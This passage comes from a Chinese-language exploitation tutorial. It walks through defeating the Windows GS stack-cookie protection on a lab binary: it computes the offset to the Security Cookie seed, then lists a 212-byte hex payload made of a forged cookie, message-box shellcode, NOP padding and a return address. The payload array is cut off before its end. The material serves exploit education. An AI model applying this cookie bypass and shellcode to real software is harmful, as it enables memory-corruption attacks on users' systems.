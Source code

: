 这里的 gs.44BBDA 函数（Canary 检查函数）：

[![](assets/1708919791-679360e12c5721d295f7ee2db1bda573.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218121439-3ba94832-ce14-1.png)

好了，现在我们要做的大致思路我们就知道了，现在我们来实行：

### 攻击过程演示：

1.  首先，我们来看看我们申请的堆首地址：  
    因为堆地址是 test 函数的第一个参数，所以应该处于`ebp + 8`的位置：

[![](assets/1708919791-c3791e18d3e0f180ec1c5ab94746334f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218121446-3fcf8b24-ce14-1.png)

堆地址：0x0069BEB0，Security Cookie 种子的地址：0x0050C004，从堆地址到 Security Cookie 种子的偏移：`0x0050C004 - 0x0069BEB0 = 0xFFE7 0154`我们将这个值放到 payload 的 4 ~ 8 的位置，然后`0x90909090 ^ 0x0019FD80 = 0x9089 6D10`，我们将这个值放到 paylaod 的 0 ~ 4 的位置，然后放上我们的 shellcode。  
payload:

```bash
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : C:\Users\lenovo\Desktop\漏洞原理\GS\Debug\111.txt
// Address : 0 (0x0)
// Size    : 212 (0xD4)
//------------------------------------------------------------
unsigned char hexData[212] = {
    0x10, 0x6D, 0x89, 0x90, 0x54, 0x01, 0xE7, 0xFF,
    0xFC, 0x68, 0x6A, 0x0A, 0x38, 0x1E, 0x68, 0x63,
    0x89, 0xD1, 0x4F, 0x68, 0x32, 0x74, 0x91, 0x0C,
    0x8B, 0xF4, 0x8D, 0x7E, 0xF4, 0x33, 0xDB, 0xB7,
    0x04, 0x2B, 0xE3, 0x66, 0xBB, 0x33, 0x32, 0x53,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x54, 0x33, 0xD2,
    0x64, 0x8B, 0x5A, 0x30, 0x8B, 0x4B, 0x0C, 0x8B,
    0x49, 0x1C, 0x8B, 0x09, 0x8B, 0x69, 0x08, 0xAD,
    0x3D, 0x6A, 0x0A, 0x38, 0x1E, 0x75, 0x05, 0x95,
    0xFF, 0x57, 0xF8, 0x95, 0x60, 0x8B, 0x45, 0x3C,
    0x8B, 0x4C, 0x05, 0x78, 0x03, 0xCD, 0x8B, 0x59,
    0x20, 0x03, 0xDD, 0x33, 0xFF, 0x47, 0x8B, 0x34,
    0xBB, 0x03, 0xF5, 0x99, 0x0F, 0xBE, 0x06, 0x3A,
    0xC4, 0x74, 0x08, 0xC1, 0xCA, 0x07, 0x03, 0xD0,
    0x46, 0xEB, 0xF1, 0x3B, 0x54, 0x24, 0x1C, 0x75,
    0xE4, 0x8B, 0x59, 0x24, 0x03, 0xDD, 0x66, 0x8B,
    0x3C, 0x7B, 0x8B, 0x59, 0x1C, 0x03, 0xDD, 0x03,
    0x2C, 0xBB, 0x95, 0x5F, 0xAB, 0x57, 0x61, 0x3D,
    0x6A, 0x0A, 0x38, 0x1E, 0x75, 0xA9, 0x33, 0xDB,
    0x53, 0x68, 0x77, 0x65, 0x73, 0x74, 0x68, 0x66,
    0x61, 0x69, 0x6C, 0x8B, 0xC4, 0x53, 0x50, 0x50,
    0x53, 0xFF, 0x57, 0xFC, 0x53, 0xFF, 0x57, 0xF8,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xBC, 0xFC, 0x19, 0x00 
```